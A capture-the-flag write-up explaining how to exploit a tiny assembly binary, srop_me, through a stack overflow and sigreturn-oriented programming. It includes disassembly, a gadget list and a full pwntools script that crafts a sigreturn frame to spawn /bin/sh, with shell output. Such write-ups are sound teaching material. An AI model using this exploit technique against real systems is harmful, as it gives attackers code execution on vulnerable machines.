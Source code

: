```yaml
---
title: ASM
type: writeup
date: 2023-06-10
author: sunbather
tags:
  - pwn
  - srop
---
```


## Description of the challenge

What can I say except, "You're welcome" :) 

Author: NoobHacker

## Solution

The binary name is``srop_me``, so we can assume this is an srop challenge. The binary is so small we can just objdump it. Seems like the source code was written in assembly.

```asm
srop_me:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <vuln>:
  401000:	b8 01 00 00 00       	mov    eax,0x1
  401005:	bf 01 00 00 00       	mov    edi,0x1
  40100a:	48 be 00 20 40 00 00 	movabs rsi,0x402000
  401011:	00 00 00 
  401014:	ba 0f 00 00 00       	mov    edx,0xf
  401019:	0f 05                	syscall 
  40101b:	48 83 ec 20          	sub    rsp,0x20
  40101f:	b8 00 00 00 00       	mov    eax,0x0
  401024:	bf 00 00 00 00       	mov    edi,0x0
  401029:	48 89 e6             	mov    rsi,rsp
  40102c:	ba 00 02 00 00       	mov    edx,0x200
  401031:	0f 05                	syscall 
  401033:	48 83 c4 20          	add    rsp,0x20
  401037:	c3                   	ret    

0000000000401038 <_start>:
  401038:	e8 c3 ff ff ff       	call   401000 <vuln>
  40103d:	b8 3c 00 00 00       	mov    eax,0x3c
  401042:	bf 00 00 00 00       	mov    edi,0x0
  401047:	0f 05                	syscall 
  401049:	c3                   	ret    

Disassembly of section .rodata:

0000000000402000 <msg>:
  402000:	48                   	rex.W
  402001:	65 6c                	gs ins BYTE PTR es:[rdi],dx
  402003:	6c                   	ins    BYTE PTR es:[rdi],dx
  402004:	6f                   	outs   dx,DWORD PTR ds:[rsi]
  402005:	2c 20                	sub    al,0x20
  402007:	77 6f                	ja     402078 <binsh+0x69>
  402009:	72 6c                	jb     402077 <binsh+0x68>
  40200b:	64 21 21             	and    DWORD PTR fs:[rcx],esp
  40200e:	0a                 	or     ch,BYTE PTR [rdi]

000000000040200f <binsh>:
  40200f:	2f                   	(bad)  
  402010:	62                   	(bad)  
  402011:	69                   	.byte 0x69
  402012:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  402013:	2f                   	(bad)  
  402014:	73 68                	jae    40207e <binsh+0x6f>
```
You can notice the program does a write to stdout with the first syscall in ``<vuln>`` (writes the bytes found at ``0x402000`` ``<msg>``) and then reads 0x200 bytes with the second syscall in ``<vuln>``. It is obvious this is a buffer overflow, so we have control of RIP. The problem here is that we can neither ret2libc (we lack any library to jump to) and we can't ROP chain either, because the binary is super small. We can use the hint and SROP the binary. The idea is to craft a sigreturn frame on the stack and then call the ``sys_rt_sigreturn`` syscall to call ``execve`` with ``/bin/sh`` as arguments. We look at the ROP gadgets found:
```
0x000000000040102e : add al, byte ptr [rax] ; add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401028 : add byte ptr [rax - 0x77], cl ; out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401010 : add byte ptr [rax], al ; add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401043 : add byte ptr [rax], al ; add byte ptr [rax], al ; syscall
0x000000000040103f : add byte ptr [rax], al ; add byte ptr [rdi], bh ; syscall
0x0000000000401011 : add byte ptr [rax], al ; add byte ptr [rdx + 0xf], bh ; syscall
0x0000000000401040 : add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401012 : add byte ptr [rax], al ; mov edx, 0xf ; syscall
0x0000000000401017 : add byte ptr [rax], al ; syscall
0x0000000000401041 : add byte ptr [rdi], bh ; syscall
0x0000000000401030 : add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret
0x0000000000401013 : add byte ptr [rdx + 0xf], bh ; syscall
0x000000000040102d : add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401032 : add eax, 0x20c48348 ; ret
0x0000000000401034 : add esp, 0x20 ; ret
0x0000000000401033 : add rsp, 0x20 ; ret
0x000000000040103e : cmp al, 0 ; add byte ptr [rax], al ; mov edi, 0 ; syscall
0x0000000000401042 : mov edi, 0 ; syscall
0x000000000040102c : mov edx, 0x200 ; syscall
0x0000000000401014 : mov edx, 0xf ; syscall
0x000000000040102a : mov esi, esp ; mov edx, 0x200 ; syscall
0x0000000000401029 : mov rsi, rsp ; mov edx, 0x200 ; syscall
0x000000000040102b : out 0xba, al ; add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall
0x0000000000401037 : ret
0x0000000000401019 : syscall
```
We have the syscall gadget, but no way of really controlling RAX, to be able to call ``sys_rt_sigreturn``. However, we can use the previous syscall to control RAX. The return code of a syscall is written to RAX. For example, the read call will change RAX to however many bytes we've read. So we could use the read to setup the sigreturn frame on the stack and then return back to the read syscall, to read some more. Then we read exactly 15 bytes, to prepare ``RAX=0xf`` for ``sys_rt_sigreturn``. Then we return to syscall and execute the frame prepared:
```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./srop_me")
target = remote("challs.n00bzunit3d.xyz", 38894)

sh_addr = 0x000000000040200f
syscall_gadget = 0x0000000000401019
read_gadget = p64(0x40101b)

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 32 + read_gadget + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.sendline(b"a" * 0xe) # read 0xe bytes because it also reads the newline
target.interactive()
```

Run the exploit:
```
[+] Starting local process './srop_me': pid 32381
[*] Switching to interactive mode
Hello, world!!
$ whoami
sunbather
```

Shells achieved.
